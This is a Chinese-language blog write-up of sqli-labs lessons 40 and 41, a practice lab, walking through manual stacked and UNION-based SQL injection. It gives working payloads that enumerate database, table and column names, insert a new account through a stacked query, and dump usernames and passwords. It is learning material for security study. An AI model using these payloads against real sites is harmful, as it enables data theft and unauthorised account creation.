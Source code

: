 # 原创
：  （手工）【sqli-labs40、41】堆叠注入、盲注

# （手工）【sqli-labs40、41】堆叠注入、盲注

**目录**

[一、推荐：](#%C2%A0%E6%8E%A8%E8%8D%90%EF%BC%9A)

[二、（手工）SQL注入基本步骤：](#%E4%B8%80%E3%80%81%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%88%E6%89%8B%E5%B7%A5%EF%BC%89SQL%E6%B3%A8%E5%85%A5%E5%9F%BA%E6%9C%AC%E6%AD%A5%E9%AA%A4%EF%BC%9A)

[三、Less40（GET - BLIND based - String - Stacked）](#%E4%BA%8C%E3%80%81Less8%EF%BC%88GET%20-%20Blind%20-%20Boolian%20Based%20-%20Single%20Quotes%EF%BC%89)

[3.1、简介：（堆叠注入-盲注-字符型注入）](#2.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A%EF%BC%88%E6%96%87%E4%BB%B6%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%89)

[ 3.2、第一步：注入点测试](#2.2%E3%80%81%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E6%B3%A8%E5%85%A5%E7%82%B9%E6%B5%8B%E8%AF%95)

[ 3.3、第二步：分析过滤](#%C2%A02.3%E3%80%81%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E5%88%86%E6%9E%90%E8%BF%87%E6%BB%A4)

[3.4、第三步：判断字段数/回显位](#2.4%E3%80%81%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E5%88%A4%E6%96%AD%E5%AD%97%E6%AE%B5%E6%95%B0)

[3.5、第四步：暴库](#2.4%E3%80%81%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E6%9A%B4%E5%BA%93)

[3.6、第五步：爆表名](#%C2%A0%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E7%88%86%E8%A1%A8%E5%90%8D)

[3.7、第六步：爆字段](#%C2%A0%E7%AC%AC%E5%9B%9B%E6%AD%A5%EF%BC%9A%E7%88%86%E5%AD%97%E6%AE%B5)

[ 3.8、第七步：堆叠注入账号](#%C2%A03.8%E3%80%81%E7%AC%AC%E4%B8%83%E6%AD%A5%EF%BC%9A%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5%E8%B4%A6%E5%8F%B7)

[3.9、第八步：爆数据](#%C2%A0%E7%AC%AC%E4%BA%94%E6%AD%A5%EF%BC%9A%E7%88%86%E6%95%B0%E6%8D%AE)

[四、Less41（GET - BLIND based -Intiger Stacked）](#%E4%BA%8C%E3%80%81Less8%EF%BC%88GET%20-%20Blind%20-%20Boolian%20Based%20-%20Single%20Quotes%EF%BC%89)

[5.1、简介：（堆叠注入-盲注-数字型注入）](#2.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A%EF%BC%88%E6%96%87%E4%BB%B6%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%89)

[5.2、利用：](#2.2%E3%80%81%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E6%B3%A8%E5%85%A5%E7%82%B9%E6%B5%8B%E8%AF%95)

---


> 
<h2>一、推荐：</h2>
[【SQL注入】堆叠注入<img alt="icon-default.png?t=M666" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/125798787?spm=1001.2014.3001.5501](https://blog.csdn.net/qq_53079406/article/details/125798787?spm=1001.2014.3001.5501)[【SQL注入】数字型注入 &amp; 字符型注入<img alt="icon-default.png?t=M666" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/125741101?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165786402616781435435338%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165786402616781435435338&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-125741101-null-null.185^v2^control&amp;utm_term=%E6%95%B0%E5%AD%97%E5%9E%8B&amp;spm=1018.2226.3001.4450](https://blog.csdn.net/qq_53079406/article/details/125741101?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165786402616781435435338%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165786402616781435435338&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-125741101-null-null.185%5Ev2%5Econtrol&amp;utm_term=%E6%95%B0%E5%AD%97%E5%9E%8B&amp;spm=1018.2226.3001.4450)
[【SQL注入-无回显】布尔盲注：原理、函数、利用过程<img alt="icon-default.png?t=M666" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/125275974?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165786796416782248562911%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165786796416782248562911&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-5-125275974-null-null.185^v2^control&amp;utm_term=%E7%9B%B2%E6%B3%A8&amp;spm=1018.2226.3001.4450](https://blog.csdn.net/qq_53079406/article/details/125275974?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165786796416782248562911%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165786796416782248562911&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-5-125275974-null-null.185%5Ev2%5Econtrol&amp;utm_term=%E7%9B%B2%E6%B3%A8&amp;spm=1018.2226.3001.4450)[【SQL注入-无回显】时间盲注：原理、函数、利用过程<img alt="icon-default.png?t=M666" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/125096394?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165786796416782248562911%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165786796416782248562911&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-3-125096394-null-null.185^v2^control&amp;utm_term=%E7%9B%B2%E6%B3%A8&amp;spm=1018.2226.3001.4450](https://blog.csdn.net/qq_53079406/article/details/125096394?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165786796416782248562911%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165786796416782248562911&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-3-125096394-null-null.185%5Ev2%5Econtrol&amp;utm_term=%E7%9B%B2%E6%B3%A8&amp;spm=1018.2226.3001.4450)


---


---


## 二、（手工）SQL注入基本步骤：

> 
第一步：注入点测试
第二步：分析权限
第三步：判断字段数
第四步：爆数据库名
第五步：爆表名
第六步：爆字段名
第七步：堆叠注入账号
第八步：查询


---


## 三、Less40（GET - BLIND based - String - Stacked）

> 
<h3>3.1、简介：（堆叠注入-盲注-字符型注入）</h3>
请求方法：GET
方法：堆叠注入+')闭合（字符型注入）+盲注+联合查询


> 
<h3> 3.2、第一步：注入点测试</h3>
?id=1
正常页面

 
输入?id=1'
非正常页面
说明存在注入点，存在单引号闭合

 

 ?id=1'--+
非正常页面
说明还存在其他闭合

 

?id=1')--+
正常页面

<hr/>
通过上述测试可以得出
存在注入点
且为')闭合


> 
<h3> 3.3、第二步：分析过滤</h3>
方法一：
考虑一步一步将注入语句字符一个一个替换掉，直到不报错（浪费时间）
或者全部替换（如果报错，不知道哪里被过滤了）
<hr/>
方法二：
获取源码进行白盒审计（最优）


> 
<h3>3.4、第三步：判断字段数/回显位</h3>
?id=1') union select 1,2,3 --+
回显正常

 



?id=1') union select 1,2,3,4 --+
非正常回显

 说明字段数为3
<hr/>
判断回显位
?id=-1') union select 1,2,3 --+

 



> 
<h3>3.5、第四步：暴库</h3>
?id=-1') union select 1,2,database() --+




> 
<h3>3.6、第五步：爆表名</h3>
?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+

 



> 
<h3>3.7、第六步：爆字段</h3>
?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+




<br/>  

> 
<h3> 3.8、第七步：堆叠注入账号</h3>
?id=1');insert into users(id,username,password) values ('40','less40','at40')--+

 


> 
<h3>3.9、第八步：爆数据</h3>
?id=-1') union select 1,2,group_concat(username,password) from security.users--+
能看见我们注入的数据

 


---


---


## 四、Less41（GET - BLIND based -Intiger Stacked）

> 
<h3>5.1、简介：（堆叠注入-盲注-数字型注入）</h3>
请求方法：GET
方法：堆叠注入+闭合（数字型注入）+盲注+联合查询


> 
<h3>5.2、利用：</h3>
与Less40相比
41是数字型注入，不需要闭合

